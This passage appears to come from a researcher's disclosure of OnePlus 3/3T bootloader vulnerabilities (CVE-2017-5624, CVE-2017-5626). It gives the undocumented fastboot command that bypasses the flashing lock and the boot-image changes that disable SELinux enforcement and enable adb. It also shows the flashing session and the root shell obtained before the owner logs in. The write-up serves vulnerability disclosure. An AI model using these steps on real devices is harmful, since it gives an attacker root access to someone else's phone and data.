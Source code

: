 
Another option which will not trigger this warning is flashing an old non-modified boot image -- older images contain known security vulnerabilities which can be exploited by the attacker.

Anyway, despite the warning (which automatically disappears after 5 seconds!) OnePlus 3/3T still allows to boot in the red [verifiedboot state](https://source.android.com/security/verifiedboot/verified-boot.html#boot_state), hence the attacker's code executes. 

There is an uncountable number of ways for demonstrating the severity of this, so I chose the easiest one.

By modifying the boot image:

1. I've set SELinux to `permissive` mode by appending `androidboot.selinux=permissive` to the kernel command line.

2. I've modified the `ramfs` s.t. `ro.debuggable=1`, `ro.secure=0`, `ro.adb.secure=0`, and changed the USB config property (`sys.usb.config`) to include `adb` upon boot.

I then exploited the vulnerability, flashing the modified `boot.img` (`evil_boot.img`):

```c
λ fastboot flash boot evil_boot.img
target reported max download size of 440401920 bytes
sending 'boot' (14836 KB)...
OKAY [  0.335s]
writing 'boot'...
FAILED (remote: Partition flashing is not allowed)
finished. total time: 0.358s

λ  fastboot oem 4F500301
...
OKAY [  0.020s]
finished. total time: 0.021s

λ fastboot flash boot  evil_boot.img
target reported max download size of 440401920 bytes
sending 'boot' (14836 KB)...
OKAY [  0.342s]
writing 'boot'...
OKAY [  0.135s]
finished. total time: 0.480s
```

That had given me a root shell, even before the user entered his credentials:

```c
OnePlus3:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),
1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),
3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0

OnePlus3:/ # getenforce
Permissive
```

The OnePlus 3/3T kernel seems to be compiled with LKM enabled, so running kernel code does not even require patching / recompiling the kernel.


[ro.boot.enable_dm_verity]: [0]
[CVE-2017-5624]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5624 "CVE-2017-5624"
[CVE-2017-5626]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5626 "CVE-2017-5626"